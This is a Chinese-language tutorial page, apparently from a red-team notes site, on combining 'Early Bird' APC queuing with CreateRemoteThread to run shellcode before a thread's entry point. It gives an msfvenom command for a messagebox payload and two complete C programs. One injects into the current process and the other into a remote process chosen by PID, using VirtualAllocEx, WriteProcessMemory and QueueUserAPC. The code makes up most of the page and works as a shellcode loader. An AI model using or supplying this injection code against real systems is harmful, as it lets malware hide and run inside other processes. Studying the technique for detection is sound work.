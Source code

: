 # Early Bird & CreateRemoteThread

在前面的[Early Bird](early-bird.md)篇我们知道需要挂起创建一个单独的进程，在恢复挂起线程时程序会调用NtTestAlert函数对APC队列进行处理，试想，我们在已有进程内创建一个挂起的线程，然后往这个线程内插入用户apc，随后恢复进程，是不是同样可以在进程执行入口点前接管进程?

![](../.gitbook/assets/image%20%2852%29.png)

## 实现思路

1. 创建一个挂起的线程
2. 写入shellcode
3. 插入apc队列
4. 恢复线程

## 代码实现

由于进程会在入口点执行前被接管，所以我们其实并不用指向一个真正有效的入口点。

这里有个小坑,生成的shellcode需要指定exitfunc，不然默认的process退出技术会把整个进程结束。

```text
msfvenom -p windows/x64/messagebox exitfunc=thread -f c 
```

* 本进程代码执行:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	hProcess = GetCurrentProcess();
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

* 远程线程注入:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	//hProcess = GetCurrentProcess();
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, NULL, 12524);//notepad.exe
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateRemoteThread(hProcess,0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	//WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

![](../.gitbook/assets/image%20%2826%29.png)



